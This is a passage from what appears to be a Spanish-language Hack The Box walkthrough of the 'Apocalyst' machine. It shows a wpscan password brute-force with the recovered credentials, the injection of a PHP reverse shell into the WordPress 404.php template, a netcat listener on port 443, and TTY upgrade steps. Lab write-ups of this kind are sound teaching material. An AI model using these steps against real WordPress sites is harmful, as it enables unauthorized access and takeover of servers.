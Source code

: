 {% highlight bash %}
wpscan --url http://apocalyst.htb/ -U user -P list.txt
{% endhighlight %}

{% highlight bash %}
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - falaraki / Transclisiation                                                                                                                                                       
Trying falaraki / total Time: 00:00:21 <=============================================                                                                     > (335 / 821) 40.80%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: falaraki, Password: Transclisiation
{% endhighlight %}

Excelente! Conseguimos credenciales válidas, ahora toca la parte mas fácil, que es obtener acceso a la máquina.

### Explotando el Panel de Wordpress

![apocalyst4](https://th4nuno.github.io/assets/img/posts/apocalyst/apocalyst4.png)

Ahora que estamos dentro del panel de Wordpress, vamos a dirigirnos a *Appeareance->Editor*

![apocalyst5](https://th4nuno.github.io/assets/img/posts/apocalyst/apocalyst5.png)

Dentro del editor, vamos a abrir el template *404.php* que se encuentra a la derecha. Esto nos permite modificar el código PHP del mismo, por lo tanto simplemente añadimos una reverse shell en PHP y guardamos el archivo. Solo falta ponernos en escucha con **netcat** e irnos a un artículo que no exista. Para ponernos en escucha por el puerto 443 ejecutamos el siguiente comando:

{% highlight bash %}
nc -nvlp 443
{% endhighlight %}

Como podemos listar los artículos con *?p=x* vamos a cambiarlo a un número que no exista, como por ejemplo *?p=10* y obtenemos inmediatamente la shell.

{% highlight bash %}
www-data@apocalyst:/var/www/html/apocalyst.htb$ whoami
whoami
www-data
{% endhighlight %}

#### Tratamiento de la TTY

La shell que tenemos realmente no es tan cómoda, así que para solucionarlo podemos realizar una serie de pasos que siempre son los mismos en una máquina Linux, para poder obtener una shell completamente funcional. 

{% highlight bash %}
script /dev/null -c bash
(Ctrl-Z)
stty raw -echo; fg
	reset xterm
export TERM=xterm
export SHELL=bash
{% endhighlight %}
